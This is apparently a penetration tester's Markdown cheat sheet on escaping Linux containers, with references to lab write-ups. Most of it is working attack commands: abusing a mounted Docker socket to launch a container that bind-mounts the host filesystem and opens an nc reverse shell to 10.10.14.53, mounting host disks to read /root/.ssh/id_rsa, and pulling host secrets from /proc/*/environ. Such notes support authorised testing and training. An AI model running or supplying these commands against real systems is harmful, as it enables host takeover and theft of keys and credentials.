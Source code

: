 ```yaml
---
title: Linux Container Escape
---
```


Break out of insecure containers on [[notes/linux/index]].
Don't forget to check [[notes/linux/credential-access-user]] and [[notes/linux/escalation-kernel-exploits]].

Untested tools:

- [deepce](https://github.com/stealthcopter/deepce)

# Sockets

Sockets, e.g. for the Docker API, mounted into the container.

~~~ bash
ls -ld /{run,var/run}/{crio/crio,docker,dockershim,containerd/containerd,frakti,rktlet}.sock
find / -type s -ls 2> /dev/null
~~~

## Docker Socket Exploitation

List available images.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock http://localhost/images/json
[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
  ...
]
~~~

Create a new container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' -d @- http://localhost/containers/create << EOF
{
  "Image": "sandbox:latest",
  "Cmd": ["/bin/sh","-c","rm -f /tmp/s && mkfifo /tmp/s && cat /tmp/s | /bin/sh -i 2>&1 | nc 10.10.14.53 1332 > /tmp/s"],
  "DetachKeys": "Ctrl-p,Ctrl-q",
  "OpenStdin": true,
  "Mounts": [
    {
      "Type": "bind",
      "Source": "/",
      "Target": "/rootfs"
    }
  ]
}
EOF
{"Id":"461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227","Warnings":[]}
~~~

Start the container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST http://localhost/containers/461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227/start
~~~

References:

- [Escaping the Whale: Things you probably shouldn't do with Docker (Part 1)](https://web.archive.org/web/20220528052412/https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html)

# Capabilities

Dangerous capabilities like `CAP_SYS_ADMIN`.

~~~ bash
grep Cap /proc/self/status
~~~

Decode the output with `capsh --decode=00000000a80425fb`.

References:

- [HTB: CyberMonday](http://web.archive.org/web/20231203124118/https://0xdf.gitlab.io/2023/12/02/htb-cybermonday.html) and [Docker breakout exploit analysis](http://web.archive.org/web/20231203124020/https://scribe.rip/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3), exploitation of `CAP_DAC_READ_SEARCH`
- [7 Ways to Escape a Container](http://web.archive.org/web/20230905200448/https://www.panoptica.app/research/7-ways-to-escape-a-container), exploitation of `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, `CAP_DAC_READ_SEARCH` and `CAP_DAC_OVERRIDE` capabilities

# Bind Mounts

Direct access to storage devices.

~~~ bash
mount | grep -e /dev/
ls -la /dev
~~~

This can be exploited by mounting the host rootfs.

~~~ bash
mount /dev/sda1 /mnt
cat /mnt/root/.ssh/id_rsa
~~~

If `mount` shows `proc on /proc type proc`, then `/proc` was bind-mounted into the container.
You can access the host rootfs trough `/proc/*/root/etc/passwd`.
Additionally you might be able to extract secrets from the host trough `/proc/*/cmdline` and `/proc/*/environ`.

